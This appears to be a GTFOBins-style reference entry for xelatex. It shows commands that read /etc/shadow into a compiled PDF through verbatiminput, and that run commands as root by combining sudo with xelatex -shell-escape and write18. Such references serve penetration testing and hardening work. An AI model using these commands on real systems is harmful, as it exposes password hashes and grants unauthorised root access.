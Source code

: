 description: `xelatex` is a symbolic link to [`xetex`](/gtfobins/xetex/). However the program does not have the same behaviour regarding the name of argv[0].
functions:
  file-read:
    - code: |
        echo "\documentclass[12pt]{article} \usepackage{verbatim} \begin{document} \verbatiminput{/etc/shadow} \end{document}" > read.tex
        latexmk read.tex
        #/etc/shadow is in read.pdf
  sudo:
    - code: |
        echo "\documentclass[12pt]{article} \begin{document} \immediate\write18{/usr/bin/whoami} \end{document}" > file.tex
        sudo xelatex -shell-escape file.tex
